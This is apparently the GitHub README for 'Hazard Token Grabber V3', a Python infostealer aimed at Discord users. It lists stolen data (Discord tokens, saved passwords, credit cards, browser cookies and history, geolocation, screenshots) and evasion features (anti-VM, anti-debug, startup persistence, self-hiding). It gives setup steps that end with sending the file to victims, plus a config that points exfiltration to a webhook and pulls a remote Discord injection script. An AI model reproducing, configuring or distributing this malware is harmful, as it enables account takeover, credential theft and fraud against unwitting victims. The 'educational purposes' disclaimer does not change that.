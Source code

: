 <h1 align="center">
  Hazard Token Grabber V3 🔧
</h1>

<p align="center"> 
  <kbd>
<img src="https://camo.githubusercontent.com/b4909d8c45134b255c5e0c959cbca68f655d044e944c39fdcd91bbbb5d58eb1e/68747470733a2f2f692e646973636f72642e66722f5053532e706e67">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdmo1_Hazard-Token-Grabber-V3&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V3 was made with

CODE 🟩

</h2>

**NOTE:** \
Hazard was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/VC3N3AXfgF)
- [🎉・Setting up Hazard Token Grabber.V3](#setup)
- [⚙・Config](#config)
- [🔍・Screenshot](#screenshot)

## <a id="features"></a>🔰 〢 Features

```
> Anti-vm/Anti-debug
> Add to startup
> Hides itself
> Supports github.com/Rdmo1/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords, Cookies and History from Google
> + More!
```

## <img src="https://raw.githubusercontent.com/Rdmo1/images/master/Hazard-Token-Grabber-V3/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V3

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [hazard.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/hazard.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. and save it
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓
    'webhook': "WEBHOOK_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdmo1/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
```

---
## <a id="screenshot"></a>🔍 〢 Screenshot
<p align="center"> 
  <kbd>
<img src="https://cdn.discordapp.com/attachments/1030360968473100331/1030404106134749244/IMG_20221014_165751.png">
  </kbd>
</p>
<p align="center"> 
  <kbd>
<img src="https://cdn.discordapp.com/attachments/1006899534078685254/1030389613765857301/IMG_20221014_160015.jpg">
  </kbd>
</p>
